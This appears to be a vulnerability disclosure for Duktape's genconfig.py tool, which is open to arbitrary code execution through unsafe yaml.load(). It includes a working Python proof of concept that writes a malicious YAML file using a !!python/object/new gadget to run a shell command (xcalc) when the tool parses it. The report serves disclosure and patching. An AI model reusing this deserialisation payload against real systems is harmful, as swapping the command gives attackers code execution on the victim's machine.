 # Description
**Arbitrary Code Excecution** in svaarala/duktape/tools/genconfig.py.
Duktape - embeddable Javascript engine with a focus on portability and compact footprint. Genconfig is a Process Duktape option metadata and produce various useful outputs.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**
# Exploit code
**Python File**
```python
import os
from duktape.tools import genconfig
os.system('git clone https://github.com/svaarala/duktape.git')
#os.chdir('duktape/tools/')
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('DUK_USE_.yaml','w+').write(exploit)
path = os.getcwd()
genconfig.scan_use_defs(path)
os.system('rm DUK_USE_.yaml')
#os.chdir('../../')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/786227210599006208/Screenshot_from_2020-12-09_19-15-39.png)
![](https://cdn.discordapp.com/attachments/749019614352244777/786227191515709480/Screenshot_from_2020-12-09_19-15-50.png)
